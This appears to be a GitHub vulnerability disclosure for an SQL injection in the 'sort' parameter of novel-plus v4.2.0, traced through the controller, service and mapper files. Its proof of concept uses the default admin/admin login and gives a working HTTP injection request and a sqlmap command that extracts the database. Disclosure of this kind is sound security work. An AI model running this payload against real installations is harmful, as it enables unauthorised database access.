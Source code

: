 # Vulnerability Submitter

Name：qinruiqi

GitHub address：https://github.com/JunFengDeng/qinruiqi/blob/main/20231027/vuln/readme.md

# SQL injection vulnerability exists in novel-plus v4.2.0

Affected version: v4.2.0

official website: https://novel.xxyopen.com/index.htm

github: https://github.com/201206030/novel-plus

## Vulnerability Overview

SQL injection vulnerability in Novel-Plus v.4.2.0 allows a remote attacker to execute arbitrary code via a crafted script to the sort parameter in /common/log/list.

## Vulnerability details

Vulnerability route: /common/log/list

Vulnerable parameter: sort

### **Vulnerability source file path 1:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\controller

![1698330555839](../img/1.png)

#### **Vulnerability source file path 2:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\utils\Query.java

![1698330643839](../img/2.png)

#### **Vulnerability source file path 3:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\service\LogService.java

![1698331147638](../img/3.png)

In the LogController class, the @GetMapping("/list") annotation indicates that this method handles GET requests and returns a PageDO<LogDO> object.
In this method, the params parameters obtained from the @RequestParam annotation will be used to construct a Query object and passed to the logService.queryList(query) method for querying.

#### **Vulnerability source file path 4:**

novel-plus-develop_xxy\novel-admin\src\main\resources\mybatis\common\LogMapper.xml

![1698641784640](../img/4.png)

It can be seen that the sort parameter is not verified, filtered, and escaped. An attacker can use malicious input to inject arbitrary SQL code. 

**POC**

"Login to the backend using the default account username/password 'admin/admin' to obtain the administrator cookie."

![1698338638577](../img/5.png)

SQL injection, closure failed, error displayed

![1698340177810](../img/6.png)

SQL injection, successful closure, normal display  

![1698340057189](../img/7.png)

#### **POC**

```http
GET /common/log/list?limit=10&offset=0&sort=(SELECT+(CASE+WHEN+(1=1)+THEN+''+ELSE+(SELECT+1+UNION+SELECT+2)+END))&username HTTP/1.1
Host: 192.168.52.163:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=0e5249e3-d558-4248-9143-d32e992d4804
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Use SQLmap to extract the current database

SQLmap command

```python
python sqlmap.py -u "http://192.168.52.163:8088/common/log/list?limit=10&offset=0&sort=&username=" --cookie "JSESSIONID=0e5249e3-d558-4248-9143-d32e992d4804" -p "sort" --level 3  --current-db --batch
```

![1698340451333](../img/8.png)

